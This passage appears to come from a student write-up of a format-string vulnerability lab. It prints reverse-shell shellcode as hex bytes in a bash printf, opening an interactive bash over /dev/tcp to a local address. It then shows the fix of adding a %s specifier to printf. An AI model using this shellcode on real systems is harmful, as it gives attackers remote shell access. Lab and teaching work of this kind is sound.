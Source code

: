 ``` bash
$(printf "\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80")
```

![image-20201011175232050](image-20201011175232050.png)

### Task 8

add `%s` specifier to `printf`

``` c
void myprintf(char * msg) {
    printf("The address of the msg argument: 0x%.8x\n", (unsigned) msg);
    // This line has a format-string vulnerability
    printf("%s\n", msg); // <====== to fix the problem
    printf("The value of the target variable (after): 0x%.8x\n", target);
}
```

exploit does not work any more.

